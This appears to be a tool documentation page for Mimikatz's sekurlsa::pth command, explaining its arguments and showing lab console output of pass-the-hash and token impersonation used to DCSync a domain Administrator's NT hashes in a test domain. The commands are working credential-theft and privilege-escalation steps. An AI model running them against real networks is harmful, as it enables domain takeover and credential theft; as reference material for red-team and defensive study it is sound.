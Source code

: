 # pth

It performs [Pass-the-Hash](https://www.thehacker.recipes/ad/movement/ntlm/pth), [Pass-the-Key](https://www.thehacker.recipes/ad/movement/kerberos/ptk) and [Over-Pass-the-Hash](https://www.thehacker.recipes/ad/movement/kerberos/opth). Upon successful authentication, a program is run (n.b. defaulted to `cme.exe`). It has the following command line arguments:

* `/user` : the username to impersonate. It must be noted that Administrator is not the only name for this well-known account.
* `/domain` : the fully qualified domain name. If Active Directory domain services are not in use or in case of local user/admin, a computer or a server name, `workgroup` can be used.
* `/rc4` or `/ntlm` : the RC4 key / NT hash (derived of the user's password).
* `/aes128` : the AES128 key derived from the user's password and the realm of the domain.
* `/aes256` : the AES256 key derived from the user's password and the realm of the domain.
* `/run` : the command line to run (defaulted to `cmd.exe`).
* `/luid` : locally unique identifier. According to Microsoft, the [locally unique identifier (LUID)](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/igpupvdev/ns-igpupvdev-\_luid) is a 64-bit value guaranteed to be unique only on the system on which it was generated. The uniqueness of an LUID is guaranteed only until the system is restarted.
* `/impersonate` : It performs [user token impersonation](pth.md#with-token-impersonation). It must be noted that a new process is not spawned but the token is injected on the process running Mimikatz.

{% hint style="info" %}
LM and NT hashes are used to authenticate accounts using the NTLM protocol. These hashes are often called NTLM hash and many documentations, resources, blogpost and tools mix terms. In this case, "ntlm" refers to the NT hash.

([more information](https://www.thehacker.recipes/ad/movement/ntlm))
{% endhint %}

{% hint style="warning" %}
Doing [Pass-the-Hash](https://www.thehacker.recipes/ad/movement/ntlm/pth) on a Windows system requires specific privilege. It either requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account). This doesn't apply to [Pass-The-Ticket](https://www.thehacker.recipes/ad/movement/kerberos/ptt) which uses an official API.
{% endhint %}

```
mimikatz # sekurlsa::pth /user:Administrator /domain:hacklab.local /ntlm:b09a14d2d325026f8986d4a874fbcbc7
user    : Administrator
domain  : hacklab.local
program : cmd.exe
impers. : no
NTLM    : b09a14d2d325026f8986d4a874fbcbc7
  |  PID  5896
  |  TID  4620
  |  LSA Process is now R/W
  |  LUID 0 ; 82772120 (00000000:04ef0098)
  \_ msv1_0   - data copy @ 0000023A0E8BD5C0 : OK !
  \_ kerberos - data copy @ 0000023A0E9FF5A8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 0000023A0E941CE8 (32) -> null
```

![Pass the Hash](<../../../.gitbook/assets/2 (3).png>)

### With token impersonation

As can be seen in the following output the `hacklab\optimus` user is a low privileged user in the `HACKLAB.LOCAL` active directory domain:

```
C:\Users\optimus>net user optimus /domain
The request will be processed at a domain controller for domain hacklab.local.

User name                    optimus
Full Name                    optimus prime
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            18/10/2021 15:39:30
Password expires             Never
Password changeable          19/10/2021 15:39:30
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   18/10/2021 15:56:39

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Users
The command completed successfully.
```

An attempt to [DCSync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) with his credentials will result in the following:

```
mimikatz # lsadump::dcsync /user:Administrator
[DC] 'hacklab.local' will be the domain
[DC] 'DC.hacklab.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
ERROR kuhl_m_lsadump_dcsync ; GetNCChanges: 0x000020f7 (8439)
```

However, by using the `/impersonate` option, [DCSync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) can be performed without spawning a new window:

```
mimikatz # sekurlsa::pth /user:Administrator /domain:hacklab.local /ntlm:b09a14d2d325026f8986d4a874fbcbc7 /impersonate
user    : Administrator
domain  : hacklab.local
program : C:\Users\Public\x64\mimikatz.exe
impers. : yes
NTLM    : b09a14d2d325026f8986d4a874fbcbc7
  |  PID  7368
  |  TID  3204
  |  LSA Process is now R/W
  |  LUID 0 ; 86889532 (00000000:052dd43c)
  \_ msv1_0   - data copy @ 0000023A0E8BD7B0 : OK !
  \_ kerberos - data copy @ 0000023A0E9FE8E8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 0000023A0E96C0E8 (32) -> null
** Token Impersonation **
```

```
mimikatz # lsadump::dcsync /user:Administrator
[DC] 'hacklab.local' will be the domain
[DC] 'DC.hacklab.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   : 01/01/1601 01:00:00
Password last change : 24/09/2021 16:24:41
Object Security ID   : S-1-5-21-2725560159-1428537199-2260736313-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: b09a14d2d325026f8986d4a874fbcbc7
    ntlm- 0: b09a14d2d325026f8986d4a874fbcbc7
    ntlm- 1: a06b19f88e0432e937a67fb6848e56bd

...Output Omitted...
```

According to Benjamin the following must be taken into consideration:

* This command does not work with minidumps (nonsense)
* this new version of 'Pass-The-Hash' replaces RC4 keys of Kerberos by the NT hash (and/or replaces AES keys). It allows the Kerberos provider to ask TGT tickets.
* NT hash is mandatory on XP/2003/Vista/2008 and before 7/2008r2/8/2012 kb2871997 (AES not available or replaceable)
* AES keys can be replaced only on 8.1/2012r2 or 7/2008r2/8/2012 with kb2871997, in this case an NT hash is not required.
